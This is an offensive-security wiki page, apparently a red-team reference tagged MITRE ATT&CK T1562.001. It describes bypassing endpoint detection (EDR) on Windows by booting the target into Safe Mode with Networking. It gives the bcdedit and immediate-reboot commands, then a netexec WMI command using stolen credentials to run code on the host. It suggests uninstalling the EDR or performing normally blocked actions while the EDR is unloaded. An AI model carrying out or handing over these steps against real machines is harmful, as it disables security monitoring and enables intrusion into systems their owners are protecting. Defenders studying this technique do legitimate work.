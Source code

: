 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# Safe Mode With Networking

## Theory

Safe Mode with Networking is a specific way to start up your Windows computer when it’s experiencing significant problems. This mode will load only the most basic files and drivers needed for the operating system to function while also enabling networking capabilities

**EDR drivers and other components will therefore not be loaded in safe mode, although we can still access the target via the network.**

{% hint style="danger" %}
In order to bypass EDR products using the following method, a reboot is required, which is a bad OPSEC operation.
{% endhint %}

## Practice

{% tabs %}
{% tab title="bcdedit" %}
On the target, we can use [bcdedit](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bcdedit) to enable Safe Mode With Networking on the next reboot, and reboot the host

```powershell
# Enable Safe Mode With Networking
bcdedit /set safeboot network

# Reboot
shutdown /r /t 0
```

After rebooting, the target will only have RPC ports open

<figure><img src="../../../.gitbook/assets/image-20240314161153536.png" alt=""><figcaption></figcaption></figure>

We can utilize [Remote WMI execution](../../pivoting/remote-wmi.md) methods to achieve code execution on the system. Since the EDR has not been loaded, **we may attempt to uninstall it or perform actions that would typically be blocked.**

```bash
nxc wmi <TARGET> -u <USER> -p <PASSWORD> -x whoami
```
{% endtab %}
{% endtabs %}

